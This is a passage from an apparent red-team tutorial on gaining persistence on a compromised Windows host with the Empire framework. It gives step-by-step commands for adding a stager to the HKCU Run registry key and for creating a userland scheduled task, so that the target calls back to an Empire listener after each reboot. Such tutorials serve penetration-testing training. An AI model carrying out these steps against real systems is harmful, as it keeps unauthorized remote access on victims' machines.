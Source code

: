 1. After selecting the module, we will need to configure the module options such as the Agent, Listener, KeyName and RegPath. This can be done by running the following commands:

        set Listener http
        set Agent <AGENT-ID>/<NAME>
        set RegPath HKCU:\Software\Microsoft\Windows\CurrentVersion\Run
        set KeyName <KEY-NAME>

    ![Empire client usemodule options](empire-client-usemodule-options.png "Empire client usemodule options")

    The registry path we will be adding our persistence stager to will be the Run registry key, Run and RunOnce registry keys cause programs to run each time a user logs on. The data value for a key is a command line no longer than 260 characters. Register programs to run by adding entries of the form `description-string=command line`. You can write multiple entries under a key. If more than one program is registered under any particular key, the order in which those programs run is indeterminate.

1. After configuring the module options, we can execute the module by running the following command in the Empire client:

        execute

1. We can determine whether our registry key was added by running a Windows Registry query command:

        reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run

1. If the module ran successfully, you should see the Registry key we specified in the module options added as shown in the following screenshot.

    ![reg query output](reg-query-output.png "reg query output")

    We should now receive an agent callback from the target system whenever it is rebooted or booted.

### Persistence through Scheduled Tasks

We can also setup persistence on the target system by utilizing the Empire module “powershell/persistence/userland/schtasks”. The persistence/userland/* modules allow for reboot-persistence from userland (i.e. without needing administrative privileges).

1. The first step will involve interacting with the unprivileged agent and selecting the userland Registry module, this can be done by running the following commands:

        interact <AGENT-ID>/<NAME>
        usemodule powershell/persistence/userland/schtasks

1. After selecting the module, we will need to configure the module options such as the Listener, RegPath and DailyTime, this can be done by running the following commands in the Empire client:

        set Listener http
        set Agent <AGENT-ID>/<NAME>
        set RegPath HKCU:\Software\Microsoft\Windows\CurrentVersion\Run
        set DailyTime 09:00

1. After configuring the module options, we can execute the module by running the following command in the Empire client:

        execute

    If successful you should receive output similar to the one shown in the screenshot below.

